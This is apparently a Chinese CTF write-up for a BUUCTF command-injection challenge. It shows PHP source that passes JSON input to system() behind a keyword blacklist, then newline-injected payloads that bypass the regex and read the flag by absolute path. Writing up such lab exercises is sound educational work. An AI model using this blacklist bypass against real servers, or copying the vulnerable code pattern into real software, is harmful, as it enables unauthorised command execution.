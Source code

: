 需要输入`json`格式的命令,现场时让键为`command`发现被过滤了,换成`cmd`成功

```
{"command":"whoami"}
{"cmd":"whoami"}
{"cmd":"ls"}
```

![image-20221025144755368](/images/buuctf-web2/image-20221025144755368.png)

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

**使用换行符**来绕过`preg_match`

```
cmd={%0a"cmd":"ls%20/"%0a}
bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

cmd={%0a"cmd":"ls%20/home/rceservice"%0a}
flag jail

cmd={%0a"cmd":"tac%20/home/rceservice/flag"%0a}
这里试了几个读文件的命令,都无法执行

直接使用绝对路径来执行命令
cmd={%0a"cmd":"ls%20/bin"%0a}
bash bunzip2 bzcat bzcmp bzdiff bzegrep bzexe bzfgrep bzgrep bzip2 bzip2recover bzless bzmore cat chgrp chmod chown cp dash date dd df dir dmesg dnsdomainname domainname echo egrep false fgrep findmnt grep gunzip gzexe gzip hostname kill ln login ls lsblk mkdir mknod mktemp more mount mountpoint mv nisdomainname pidof ps pwd rbash readlink rm rmdir run-parts sed sh sleep stty su sync tar tempfile touch true umount uname uncompress vdir wdctl which ypdomainname zcat zcmp zdiff zegrep zfgrep zforce zgrep zless zmore znew

cmd={%0a"cmd":"/bin/cat%20/home/rceservice/flag"%0a}
flag{d45d20f3-c8ef-45b6-9851-075783c8a91b}
```